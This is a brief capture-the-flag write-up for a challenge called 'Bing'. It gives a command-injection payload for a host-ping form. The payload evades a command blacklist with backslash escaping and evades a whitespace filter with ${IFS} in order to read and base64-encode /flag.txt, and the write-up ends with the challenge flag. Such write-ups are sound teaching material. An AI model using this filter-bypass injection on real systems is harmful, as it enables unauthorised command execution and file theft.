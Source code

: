 # Bing
> `-`

## About the Challenge
We were given a website that contains a form and we can input a host there

![preview_1](images/preview_1.png)

And then I tried to input 127.0.0.1 and here was the output

![preview_2](images/preview_2.png)

## How to Solve?
We need to exploit the website using `Command Injection` vulnerability in order to read the flag. Here is the payload I used to read the flag

```
127.0.0.1;c\a\t${IFS}/f\lag.txt${IFS}|base64
```

Because some of the commands are blacklisted by the website (Like `cat` or `ls`), we can trick it with `/` character.  And because whitespace is also blacklisted by the website we can use `${IFS}`

![flag](images/flag.png)

```
dead{okokok!!!_th1s_flAg_f0R_Y0U}
```